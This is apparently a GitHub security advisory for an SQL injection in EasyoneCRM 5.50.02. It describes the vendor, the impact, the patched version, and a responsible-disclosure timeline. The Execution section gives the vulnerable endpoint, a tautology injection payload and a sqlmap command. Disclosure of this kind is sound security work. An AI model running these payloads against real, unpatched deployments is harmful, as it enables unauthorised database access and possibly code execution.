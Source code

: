 # EasyoneCRM-5.50.02-SQLinjection
Easyone One is an Italian CRM company with 14 years of experience with a mission: to organize the sales processes of companies, in an increasingly complex and competitive market, through the digitization of processes from the most important and strategic activity: the relationship with the customer.
Easyone is not a CRM vendor, it produce and develop directly CRM for the Italian market.

Easyone developed integration with the most popular management systems on the Italian market: Alyante and Team System Metodo; SageX3, Galileo by San Marco Informatica, Arca by Wolters Kluver, Business by NTS, MecSal by Passpartout and more.

Easyone has more than 1500 active customers on the national territory.

Exploiting this vulnerability allows a remote attacker to obtain control of the database. RCE is not guaranteed, depends on the privileges and capabilities of the user running the dbms. 

Vulnerable version: 5.50.02

Patched version: 5.50.02.03

## Timeline
- 30/08/2022 - Contacted Easyone IT department via e-mail regarding the vulnerability
- 05/09/2022 - Contacted Easyone IT department via telephone regarding availability slot to discuss the vulnerability
- 19/09/2022 - Call with Easyone IT department - vulnerability explained and recognized by Easyone IT department
- 19/09/2022 - CVE request approved by Easyone IT department
- 19/09/2022 - Contacted Easyone IT department via e-mail with summary of the call - patching of the vulnerability planned 
- 28/10/2022 - Contacted Easyone IT department asking about patching 
- 28/10/2022 - Easyone IT department confirms the successful patching and the release of the patched version
- 02/11/2022 - First CVE request sent  
- 21/11/2022 - Reminder e-mail to cve.mitre.org
- 29/11/2022 - Reminder e-mail to cve.mitre.org
- 06/12/2022 - Reminder e-mail to cve.mitre.org
- 14/12/2022 - cve.mitre.org asked about advisory
- 15/12/2022 - CVE request with advisory provided to cve.mitre.org 


## Execution
- Vulnerable GET parameter: domain.com/Services/Misc.asmx/SearchTag?text=SQLI 
- PoC: 
```
domain.com/Services/Misc.asmx/SearchTag?text=z' OR 1=1 --
```
- PoC via sqlmap: 
```
sqlmap -u https://domain.com/Services/Misc.asmx/SearchTag?text=a --dbms=DBMS --batch
```

## Screenshots
![Immagine 2022-12-15 184659](https://user-images.githubusercontent.com/119488062/207931523-f5db2479-9bc2-429a-ab24-96ea6ee33919.png)

## Automated PoC currently in development

# Authors
Luca Bernardi, Davide Bianchin, Fortunato [fox] Lodari @ Deda Cloud Cybersecurity Team
